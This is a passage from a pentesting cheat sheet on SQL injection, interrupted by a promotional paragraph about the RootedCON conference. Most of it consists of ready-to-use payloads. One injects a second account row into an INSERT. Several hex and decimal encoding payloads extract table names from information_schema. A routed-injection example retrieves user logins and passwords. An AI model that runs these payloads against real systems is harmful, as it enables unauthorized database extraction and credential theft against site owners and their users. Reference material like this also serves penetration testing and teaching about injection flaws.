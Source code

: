     Consequently, authentication can then be attempted using admin_generic@example.com with the password corresponding to the bcrypt hash ("bcrypt_hash_of_newpassword" represents the new password's bcrypt hash, which should be replaced with the actual hash of the desired password).

Extract information
Creating 2 accounts at the same time

When trying to create a new user and username, password and email are needed:

SQLi payload:
username=TEST&password=TEST&email=TEST'),('otherUsername','otherPassword',(select flag from flag limit 1))-- -

A new user with username=otherUsername, password=otherPassword, email:FLAG will be created

Using decimal or hexadecimal

With this technique you can extract information creating only 1 account. It is important to note that you don't need to comment anything.

Using hex2dec and substr:

'+(select conv(hex(substr(table_name,1,6)),16,10) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'

To get the text you can use:

__import__('binascii').unhexlify(hex(215573607263)[2:])

Using hex and replace (and substr):

'+(select hex(replace(replace(replace(replace(replace(replace(table_name,"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'

'+(select hex(replace(replace(replace(replace(replace(replace(substr(table_name,1,7),"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'

#Full ascii uppercase and lowercase replace:
'+(select hex(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr(table_name,1,7),"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%"),"z","&"),"J","'"),"K","`"),"L","("),"M",")"),"N","@"),"O","$$"),"Z","&&")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'

​

​​​​​​RootedCON is the most relevant cybersecurity event in Spain and one of the most important in Europe. With the mission of promoting technical knowledge, this congress is a boiling meeting point for technology and cybersecurity professionals in every discipline.
LogoRootedCONRootedCON
Routed SQL injection

Routed SQL injection is a situation where the injectable query is not the one which gives output but the output of injectable query goes to the query which gives output. (From Paper)

Example:

#Hex of: -1' union select login,password from users-- a
-1' union select 0x2d312720756e696f6e2073656c656374206c6f67696e2c70617373776f72642066726f6d2075736572732d2d2061 -- a
